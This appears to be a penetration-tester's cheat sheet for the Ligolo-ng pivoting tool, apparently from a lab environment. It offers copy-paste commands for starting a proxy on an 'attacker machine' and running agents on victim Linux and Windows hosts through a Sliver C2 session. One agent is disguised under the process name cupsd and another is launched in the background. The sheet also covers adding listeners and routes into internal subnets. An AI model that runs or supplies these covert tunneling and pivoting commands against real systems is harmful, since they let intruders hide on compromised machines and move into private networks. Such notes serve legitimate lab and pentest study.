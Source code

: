 # Ligolo-ng

### Quick Copy Paste&#x20;

```
# proxy setup on attacker machine
./proxy -selfcert -laddr https://0.0.0.0:1080
WARN[0000] Using automatically generated self-signed certificates (Not recommended) 
INFO[0000] Listening on 0.0.0.0:1080
# agent from victim machine
- from sliver 
execute /usr/bin/cupsd "-connect 10.10.14.2:1080 -ignore-cert"
ligolo-ng » INFO[0672] Agent joined.                                 name=root@DANTE-WEB-NIX01 remote="10.10.110.100:58358"
# from attacker machine ligolo-ng cmd
session 
- choose session 
auto_route
- verify 
curl http://172.16.1.1
```

### Windows Agent

* start ligalo-ng windows agent in background via cmd.exe

```
cmd.exe /c start /b .\agent.exe -connect 172.16.1.100:7777 -ignore-cert
```

* start ligalo-ng windows agent via sliver session&#x20;

```
 execute -f '.\agent.exe -connect 172.16.1.20:6666 -ignore-cert'
```

### Add Listener&#x20;

* add ligalo-ng listener listen on 172.16.2.5:8888 on connect forward to 10.10.14.3:8080 via tcp

```
   listener_add --addr 172.16.2.5:8888 --to 10.10.14.3:8080 --tcp

```

### Add Additional route

* Certain situations call for an additional route.
* Imagine you have root access to a machine `10.100.0.3` and you are able to route to `172.16.0.0/24`&#x20;
* Ligolo will not auto detect this as it will auto route you for the `10.110.0.0/24`&#x20;

```
tunnel_list
# get the name of your active interface 
route_add --name adeptsunshine --route 172.16.0.1/24
```
